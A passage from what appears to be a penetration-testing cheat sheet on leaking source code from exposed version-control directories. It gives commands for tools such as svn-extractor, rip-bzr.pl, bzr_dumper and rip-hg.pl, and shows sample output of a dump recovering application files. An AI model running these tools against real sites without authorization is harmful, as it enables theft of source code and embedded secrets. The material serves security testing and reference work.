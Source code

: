 ### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## BAZAAR - Source code management

### Automatic way : rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

### Automatic way : bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)                                                                                                                                                       
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/   
```

## MERCURIAL - Source code management

### Automatic way : rip-hg.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-hg.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-hg.pl -v -u
```

## References

- [bl4de, hidden_directories_leaks](https://github.com/bl4de/research/tree/master/hidden_directories_leaks)
- [bl4de, diggit](https://github.com/bl4de/security-tools/tree/master/diggit)
- [Gitrob: Now in Go - Michael Henriksen](https://michenriksen.com/blog/gitrob-now-in-go/)
